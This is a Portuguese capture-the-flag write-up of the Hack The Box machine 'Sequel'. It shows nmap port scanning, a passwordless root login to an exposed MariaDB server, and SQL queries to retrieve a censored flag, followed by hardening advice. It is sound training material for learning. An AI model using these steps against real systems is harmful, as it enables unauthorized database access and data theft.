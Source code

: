 ## HTB: Sequel
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Sequel
 - Dificuldade: Muito Fácil
 - Ip: 10.129.x.x


## ⚙️ 0. Resumo
A maquina já é da TIER 2 dos Starting Points, essa ela usa um server MySql na versão MariaDB, o objetivo é ter o acesso remoto root do banco e achar a flag

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Ausência de Autenticação como ROOT

- Serviço Exposto na rede

## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Eu não sabia qual era a porta que estaria o serviço, então decidi escanear um número alto de portas

```bash
sudo nmap -sS -sV -p 1-6379 10.129.x.x
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
3306/tcp open  mysql
``` 

✅ Conclusão: Server MySql encontrado aberto na porta 3306


## ⚡ 2. EXPLORAÇÃO
### 2.1 Conexão com o MySQL

Foi bem fácil na real, ja que o server não tinha autenticação com senha, mas tive que colocar " --skip-ssl"
pois tava dando erro sem isso

```bash
mysql --skip-ssl -u root -h 10.129.x.x
```

### 2.2 Enumeração de Dados

Dentro do MySql, usei comandos para explorar o servidor:

```bash
SHOW DATABASES;
```

🎯 Resultado:

```bash
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
```

### 2.3 Procurando a Flag
Eu fui procurar a flag no banco de dados "htb", para selecionar ele usei:

```bash
 USE htb;
```

e depois usei para ver as tabelas dentro dele:

```bash
SHOW TABLES;
```

🎯 Resultado:

```bash
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```


### 2.3 Captura da Flag

Após achar essas duas tabelas, eu fui na config, pq achei que era a com mais chance de ter alguma coisa, ent usei


```bash
SELECT * FROM config;
```

🎯 Resultado:

```bash
+---------------+
| config |
+---------------------------+
| flag          | {.......} |
+---------------------------+
```
*OBS: Censurei a flag!

## 🛡️ 3. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha para usuário e usuário ROOT

- 2. Não deixar o serviço aberto e exposto na rede

- 3. Colocar o serviço em uma porta mais alta para dificultar o scan de portas


## 🎯 4. CONCLUSÃO
### 4.1 Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Critíco (Usuário ROOT adquirido)

#### 4.2 Lições Aprendidas:

  1. Sempre coloque senha, e tbm que seja uma senha boa

  2. Não deixe qualquer serviço exposto, tente sempre dificultar o reconhecimento dele

  3. Aprendi a se movimentar em um banco de dados MySql no prompt


### 🧠 Reflexão Pessoal:

"MySQL é um serviço muito usado ainda em muitos sites e aplicações, se você não tiver a devida configuração, alguém que invadir o serviço exposto, pode roubar e deletar todos os bancos de dados hospedados, então sempre coloque senha e proteja seus serviços."

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Sequel | 25/10/25
